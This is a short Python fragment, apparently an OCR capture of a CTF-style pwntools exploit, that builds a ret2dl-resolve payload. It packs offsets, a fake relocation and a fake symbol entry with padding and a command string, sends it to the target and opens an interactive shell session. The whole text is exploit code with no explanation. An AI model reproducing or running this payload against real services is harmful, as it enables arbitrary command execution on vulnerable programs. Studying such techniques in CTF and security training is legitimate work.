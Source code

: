 ```py
payload2 += p32(index_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # (base_stage+28)的位置
payload2 += 'B' * align
payload2 += fake_sym # (base_stage+36)的位置
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```